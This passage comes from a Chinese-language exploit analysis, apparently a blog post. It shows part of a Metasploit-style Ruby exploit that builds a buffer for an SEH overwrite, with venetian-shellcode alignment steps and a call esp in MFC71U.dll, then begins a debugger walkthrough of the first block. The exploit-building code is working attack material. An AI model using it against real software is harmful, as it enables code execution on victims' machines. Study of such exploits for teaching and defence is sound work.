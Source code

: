 ```
buffer << "\x25\x7e\x7e"   #and eax,7e007e00
buffer << "\x25\x01\x01"   #and eax,01000100 
buffer << "\x35\x7f\x7f"   #xor eax,7f007f00 
buffer << "\x05\x44\x44"   #add eax,44004400 
buffer << "\x57"           #push edi as padding, needed to align stack   
buffer << "\x50"           #push eax                                   
buffer << junk * target['Padding1'] #OS specific
第四区块
 
#custom venetian to reach shellcode
buffer << "\x58"           #pop eax
buffer << "\x58"           #pop eax                                      
buffer << "\x05\x09\x01"   #depending OS add eax, 0x1000900               #
buffer << "\x2d\x01\x01"   #sub eax, 01000100, this will align eax to our buffer  
buffer << "\x50"           #push eax                                     
 
第五区块
#crafting call esp at 0x7c32537b (MFC71U.dll) to make a jump using call esp
buffer << "\x5C"           #pop esp                                          
buffer << "\x58"           #pop eax                                              
buffer << "\x05\x53\x7c"   #add eax 7c005300 part of call esp            
buffer << "\x50"           #push eax                                     
buffer << junk * target['Padding2'] #OSspecific   
 
buffer << "\x7b\x32"       #part of call esp 
 
第六区块
#preparing for jump to shellcode, placing in eax.
buffer << junk * 114       #junk
buffer << "\x57"           #push edi                                     
buffer << "\x58"           #pop eax                                         
buffer << "\x05\x0A\x01"   #depending OS add eax, 0x1000A00               
buffer << "\x2d\x01\x01"   #sub eax,01000100                             
buffer << nop              #nop/inc edx
buffer << get_payload(payload.encoded)
buffer << junk * (payload.space-buffer.length)      #fill the rest of buffer, must be added.
```  
  
接来下  
我们单步调试确定各个区块的作用。  
## 2、第一区块  
  
先是用junk填充790字节，再用0x61，0x42覆盖掉SEH指针 可以看到地址为0x12EED4，用target['Ret'] 覆盖seh Handler ：![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HJugwvXjwy68ibYyuvFBz9qLh4gkrxZboBIHpfTXmMPqYT8NxJMaWRa9Mnuc8ibibP10eG8j5tqfpKg/640?wx_fmt=png "")  
  
当覆盖到0x00130000这个地址的时候触发异常进入0044002c执行：![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HJugwvXjwy68ibYyuvFBz9qkLtfPYtibHfT7AafzZ8Pyic1353pNaE6bFVcKSp8xibKLibQFklPhAvCtg/640?wx_fmt=png "")  
  
此时堆栈情况如下，可以看到执行两次pop后ret到0x12EED4：![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HJugwvXjwy68ibYyuvFBz9qdFfslxicPAmbMUTzqcxzH8NzaQbVOBKIaPlt6JknYWiaKGsy4Ft6icj7Q/640?wx_fmt=png "")  
  